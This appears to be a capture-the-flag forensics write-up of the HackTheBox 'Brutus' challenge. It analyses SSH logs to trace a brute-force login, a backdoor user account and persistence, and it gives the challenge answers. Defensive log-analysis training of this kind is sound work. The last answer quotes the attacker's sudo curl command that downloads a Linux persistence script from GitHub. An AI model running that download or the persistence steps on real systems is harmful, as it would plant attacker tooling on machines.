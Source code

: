```yaml
---
title: Brutus
date: 2024-12-13 11:00:00 +/-TTTT
categories: [DFIR]
tags: [htb]     # TAG names should always be lowercase
description: very easy Sherlock on HackTheBox writeup
---
```


# Brutus

## Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


### 1. Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?


Opening the logs we start looking for patterns, or rather deviating patterns. A brute force attack would have a lot of requests within a certain time span.
From the start of the log till 06:31:01 we see a lot of sessions opening and closing. After that we see that there are multiple attempts to login as an invalid user: admin. We can see that the attacker is using a different port for each attempt.

```
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
---
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460

etc.
```

`65.2.161.68`

### 2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

Looking for the source IP of the attacker we can search for succesful login attempts. 


```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

`root`

### 3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

In the zip file where two files: the _auth.log_ file, and also a wtmp file.
We can _parse_ the contents of this file using _utmpdump_. Looking for login sessions of root of the day of the attack and combing this with the source IP of the attacker(which is information we found in the previous tasks), we can find the timestamp: 
```
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```

` 2024-03-06 06:32:45 `

### 4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Looking through the logs we search for a succesful login of the _admin_ account. The catch is that the first time the admin user is logged in, its an automated login from the bruteforce attempt. The session gets killed shortly after.
So instead we look for a session which stays open, and actions are carried out by the attacker.

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

`37`

### 5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Shortly after logging in manually, we can see the attacker adding an user.

```
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```

 `cyberjunkie`

### 6. What is the MITRE ATT&CK sub-technique ID used for persistence?

Searching through the _persistance_ tactics we find that making a local account is in fact sub-technique ID _T1136.001_.

![MITRE subtechnique](/assets/img/post_images/Brutus_MITRE.png)
_T1136.001_

### 7. How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

We know from the wmtp file that the first terminal session started at _06:32:45_.
Before the user logs in with his new account he ends the session on the admin account at _06:37:24_:
```
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

Subtract the later from the first and you'll find that the session lasted 4 minutes and 39 seconds of _279 seconds_.



### 8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Looking for an executed command as _cyberjunkie_ with _sudo_ we find the following entry in the auth.log:
`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

